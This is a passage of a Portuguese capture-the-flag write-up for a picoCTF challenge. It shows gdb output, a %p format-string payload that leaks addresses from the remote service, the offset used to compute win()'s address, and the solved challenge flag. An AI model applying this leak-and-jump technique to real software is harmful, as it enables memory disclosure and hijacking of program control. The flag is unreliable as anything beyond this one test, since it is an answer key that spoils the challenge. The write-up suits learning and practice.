 Agora sabemos onde está o endereço da main e podemos continuar o programa com o `continue`.

```
(gdb) info address main
Symbol "main" is a function at address 0x555555555400.
(gdb) continue
Continuing.
Enter your name:
```

Podemos digitar uma sequência de vários caracteres, indicando o endereço deles com o ponteiro e verificar se o dado vazado bate com o endereço da main, por exemplo:

```
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

```
(gdb) info address main
Symbol "main" is a function at address 0x555555555400.
(gdb) continue
Continuing.
Enter your name: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x5555555592a1(nil)0x5555555592d50x7fffffff...0x555555555400

```

O endereço da main está na última posição dos endereços impressos.

### Executando remotamente

Fazendo agora o processo dentro do servidor do picoCTF:

```
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

```
nc rescued-float.picoctf.net 54717
Enter your name: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x59f417ad42a1(nil)0x59f417ad42d3...0x59f3dd904400
enter the address to jump to, ex => 0x12345:
```

Agora, para descobrir o valor da função `win()`, basta subtrair o 0x96 do endereço encontrado. Dessa forma, podemos fazer o jump para a função win:

```
0x59f3dd904400 - 0x96 = 0x59f3dd90436a
```

O endereço da função `win` é:

```
0x59f3dd90436a
```

```
enter the address to jump to, ex => 0x12345: 0x59f3dd90436a
You won!
picoCTF{p13_5h0u1dn'7_134k_71356635}
```
---
